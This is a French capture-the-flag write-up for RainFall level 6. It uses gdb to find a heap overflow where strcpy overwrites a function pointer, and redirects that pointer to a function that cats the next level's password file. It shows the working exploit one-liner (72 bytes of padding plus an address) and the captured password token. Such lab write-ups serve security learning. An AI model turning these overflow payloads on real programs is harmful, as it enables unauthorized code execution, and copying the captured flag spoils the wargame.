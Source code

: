 # Level 6

En décompilant le main du binaire, nous voyons qu'il fait appel à deux malloc à la suite un premier de `64` octets et un deuxième de `4` octets.

Le premier malloc sera utilisé pour copié `argv[1]` et le deuxième contiendra l'addresse de la fonction `m` ce qui sera donc un pointeur sur fonction puis appellé après le `strcpy`.

On peux aussi s'appercevoir qu'il existe une seconde fonction non utilisé dans le main, la fonction `n`. Cette dernière utilise `system` pour `cat` le pass du level7.

On peut alors réecrire le pointeur sur fonction avec l'adresse de la fonction `n` en copiant `64` octets + `8` de métadata du malloc pour copié ensuite l'adresse de `n` dans le pointeur sur fonction.

```shell
level6@RainFall:~$ gdb level6
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
[...]
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
[...]
End of assembler dump.
(gdb) info func
All defined functions:
Non-debugging symbols:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disas m
Dump of assembler code for function m:
[...]
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
[...]
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) quit
~ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```



